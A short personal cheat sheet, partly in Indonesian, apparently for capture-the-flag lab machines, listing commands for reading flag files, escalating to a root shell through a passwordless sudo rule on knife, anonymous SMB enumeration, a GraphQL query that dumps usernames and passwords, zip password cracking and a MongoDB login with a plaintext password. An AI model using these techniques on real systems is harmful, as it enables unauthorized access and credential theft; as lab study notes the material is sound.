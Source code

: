 # get flag windows / linux

di linux cat ./flag.txt
di windows type flag.txt

# knife ruby

karna sudo -l bisa sudo nopasswd, tinggal eskalasi ke root aja via knife
cara exec code ruby:

    sudo /usr/bin/knife exec /tmp/exp.rb 

code exp.rb isinya adalah:

    system "/bin/sh" 

# SMBMAP

    smbmap -H 10.10.10.3

# SMBCLIENT

    smbclient -N //10.10.10.3/tmp

# windows hidden file
    
    ls -force

or 

    gci -force

# Graphql

query graphql: 

    http://10.10.10.121:3000/graphql?query={user{username,password}}

# fcrackzip

cracking zip

    fcrackzip -u -v -D -p ../../tools/wordlist/rockyou.txt data.zip

# Mongodb

login with user pass mongodb

    mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k
